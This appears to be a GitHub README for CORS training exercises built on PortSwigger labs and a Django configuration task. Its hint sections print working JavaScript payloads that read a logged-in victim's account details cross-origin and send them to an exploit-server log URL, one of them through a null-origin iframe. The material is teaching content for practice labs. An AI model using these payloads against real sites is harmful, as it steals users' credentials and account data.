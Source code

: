 # Cross-Origin-Resource-Sharing
Cross-Origin Resource Sharing (CORS) is an HTTP-header based mechanism that allows a server to indicate any origins (domain, scheme, or port) other than its own from which a browser should permit loading resources.

## Getting Started
PortSwigger account is required [PortSwigger](https://portswigger.net/users/register)  
Necessary tools: [Burt Suite](https://portswigger.net/burp/communitydownload)

## Exercise 1
CORS vulnerability with basic origin reflection
> [Exercise_1](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

<details>
  <summary>Hint</summary>
    
    #This code my help you access logs  
    #In your browser, go to the exploit server and enter the following HTML, replacing $url with your unique lab URL  
  
    <script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','$url/accountDetails',true);
      req.withCredentials = true;
      req.send();

      function reqListener() {
          location='/log?key='+this.responseText;
      };
    </script>
  
</details>

## Exercise 2
CORS vulnerability with trusted null origin  
> [Exercise_2](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)


<details>
  <summary>Hint</summary>  
    
    #This code my help you access logs  
    #In your browser, go to the exploit server and enter the following HTML, replacing $url with the URL for your unique lab URL and $exploit-server-url with the exploit server URL  
  
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" 
      srcdoc="<script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','$url/accountDetails',true);
      req.withCredentials = true;
      req.send();
      function reqListener() {
        location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
      };
      </script>">
    </iframe>  
  
</details>

## Exercise 3
CORS configuration in Django

Download and uncompress BAWIM.tar.gz and BAWIM2.tar.gz into folders BAWIM and BAWIM2  
BAWIM.tar.gz contains a webserver that shows some images.   
BAWIM2.tar.gz contains a webserver that shows images from BAWIM.  
Your task is to allow webserver BAWIM2 to access images from BAWIM.  
Run BAWIM on port 8000 and BAWIM2 on port 8001 (python3 manage.py runserver 8000, python3 manage.py runserver 8001)  
![alt text](https://github.com/JJast/Cross-Origin-Resource-Sharing/blob/main/i1.png?raw=true)
![alt text](https://github.com/JJast/Cross-Origin-Resource-Sharing/blob/main/i2.png?raw=true)



